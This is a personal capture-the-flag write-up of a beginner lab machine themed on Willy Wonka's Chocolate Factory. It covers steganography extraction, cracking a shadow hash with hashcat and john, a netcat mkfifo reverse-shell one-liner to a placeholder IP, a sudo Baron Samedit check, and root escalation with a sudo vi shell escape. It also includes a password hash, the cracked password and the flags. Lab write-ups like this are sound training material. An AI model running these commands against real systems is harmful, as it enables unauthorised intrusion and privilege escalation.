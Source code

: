 **Welcome to Willy Wonka's Chocolate Factory!**

![](https://i.pinimg.com/originals/01/86/9e/01869e0b2238d8307020d2c4503cec51.jpg)

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

This is a beginner friendly room!

---

_Enter the key you found!



_What is Charlie's password?



_Change user to charlie



_Enter the user flag



_Enter the root flag

---

## Enum 

![[Pasted image 20240713085213.png]]

When i try to login it takes me to a verification.php script. Maybe i can do something with this later.

**Wappalyzer**

![[Pasted image 20240713090530.png]]

P-113 reveals a secret.
http://localhost/key_rev_key <- You will find the key here!!!

I use strings on the file and pipe it to less:
![[Pasted image 20240713093426.png]]

Congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

I run file to see what it is:
![[Pasted image 20240713093851.png]]

I give it execute permissions and use the key i found.
- It requires a name. I tried charlie but it didn't work. 

Back to the jpg image:

```php
steghide --info gum_room.jpg
```

```php
steghide extract -sf gum_room.jpg
```

For some reason the pass didn't work but stegseek already extracted the file. I copy it to a txt document and then use base64 -d to decode it.

```php
cat b64.txt | base64 -d
```

This sumps a password file and hashes.

I now have charlie hash ready for cracking:
`charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::`

This looks like md5 so i'll use hashcat for this.

I look up the hash on the website: https://hashcat.net/wiki/doku.php?id=example_hashes

Then use hashcat on the file:

```php
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

We could also use john.

```php
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20240713101312.png]]
cn7824           (charlie)

![[Pasted image 20240713101610.png]]

I look around for a while and then launch a rev shell:

```php
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f
```

## Priv

Available information:                                                                                                                                                                            
Kernel version: 4.15.0                                                                                                                        Architecture: x86_64                                                                                                                        Distribution: ubuntu                                                                                                                          Distribution version: 18.04                                                                                                               Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed                  Package listing: from current OS       

Les has a sudo baron listed so we check to see if vulnverable:

```php
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```

![[Pasted image 20240713103740.png]]

╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users                                                                                                                          
uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27==(sudo)==                    
╔══════════╣ Do I have PGP keys?                                                                                                                                                                  
/usr/bin/gpg                                                                                                                                      netpgpkeys Not Found                                                                                                                     netpgp Not Found                                                                                                                                                                                  
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                                 
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                  
/etc/sudoers:Defaults   env_reset                                                                                                    /etc/sudoers:Defaults   mail_badpa==ss==                                                                                             /etc/sudoers:Defaults   secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"                    /etc/sudoers:root       ALL=(ALL:ALL) ALL                                                                                      /etc/sudoers:charlie ALL=(ALL:!root) NOPASSWD:/usr/bin/==vi==                                                       /etc/sudoers:%admin ALL=(ALL) ALL                                                                                             Sudoers file: /etc/sudoers.d/99-snapd.conf is readable                                                               Defaults    secure_path += /snap/bin                          

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2

[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:==sudo==;unix-group:admin

---

I check out Charlies home dir:

![[Pasted image 20240713110122.png]]

We may be able to ssh as charlie into the machine.

```php
chmod 600 id_rsa
```

```php
ssh -i id_rsa charlie@10.10.142.138
```

![[Pasted image 20240713110520.png]]

flag{cd5509042371b34e4826e4838b522d2e}

---

## Root Escalation 

We already spotted this earlier so we get the script from GTFObins

```php
sudo vi -c ':!/bin/sh' /dev/null
```

![[Pasted image 20240713111106.png]]

![[Pasted image 20240713112420.png]]

Contained the message from the nmap scans:  /etc/init.d/chocolate.txt 

![[Pasted image 20240713113041.png]]

Finally i get to use the key i found right at the start:

![[Pasted image 20240713113142.png]]
Very cool. One of the best boxes yet. 

**flag{cec59161d338fef787fcb4e296b42124}**






